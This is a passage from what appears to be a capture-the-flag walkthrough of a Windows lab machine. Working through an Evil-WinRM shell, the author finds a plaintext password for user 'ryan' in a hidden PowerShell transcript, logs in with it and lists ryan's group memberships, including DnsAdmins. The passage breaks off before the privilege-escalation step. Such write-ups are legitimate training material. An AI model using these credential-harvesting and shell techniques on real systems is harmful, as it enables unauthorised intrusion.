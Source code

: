 We found more directories and files. One of the interesting folders we see is `PSTtranscripts`, let's see what is has.

```terminal
*Evil-WinRM* PS C:\pstranscripts\20191203> ls -force


    Directory: C:\pstranscripts\20191203


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

We find one text file, and after listing it's content we find the password for user `ryan`: `Serv3r4Admin4cc123!`.

Let's use the password to login as ryan.

### SYSTEM

Let's check our groups

```terminal
*Evil-WinRM* PS C:\Users\ryan\desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```
